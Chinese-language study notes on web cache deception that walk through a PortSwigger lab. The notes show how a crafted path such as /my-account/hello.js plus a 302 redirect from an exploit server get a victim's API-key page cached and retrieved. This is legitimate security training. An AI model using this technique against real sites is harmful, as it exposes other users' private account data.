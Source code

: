 ```yaml
---
title: Web cache deception
description: Web cache deception
---
```


## Path mapping discrepancies

假設有以下網址

```
https://www.google.com/user/123/profile.json
```

傳統的 Web Server 在處理 URL Path 時，會映射到實體的 File Path

但 Restful API 可能是這樣註冊的

```js
app.get("/user/:id", getUserProfile);
```

所以對於 Restful API

```
https://www.google.com/user/123/script.js
https://www.google.com/user/123/style.css
```

可能都是進到同樣的 route => 回傳 userProfile

攻擊者可以構造以上 URL，讓 CDN 把包含 userProfile 的 `.js`, `.css` 快取

## Lab: Exploiting path mapping for web cache deception

| Dimension | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/web-cache-deception#path-mapping-discrepancies      |
| Lab       | https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-path-mapping |

這題的 /my-account 頁面含有 API Key，嘗試讓 /my-account 頁面也被快取

```js
https://0a8200f303c345b2825b92e200480080.web-security-academy.net/my-account/hello.js
```

有正確被快取

```
age: 0
cache-control: max-age=30
x-cache: miss
```

在 exploit-server 構造

```
HTTP/1.1 302 Found
Location: https://0a8200f303c345b2825b92e200480080.web-security-academy.net/my-account/hello.js
```

Deliver exploit to victim 之後，在登入的情況訪問 /my-account/hello.js，就會吃到 victim 的快取

1. 未登入情況，沒有 cookie.session，訪問 /my-account/hello.js 會被 302 導回 /login，所以這題要在登入情況訪問
2. 確保 /hello.js 這把 cache key 沒有被快取過，victim 點擊以後快取 30 秒，並且在 30 秒內盡快訪問 /my-account/hello.js

## 參考資料

- https://portswigger.net/web-security/web-cache-deception
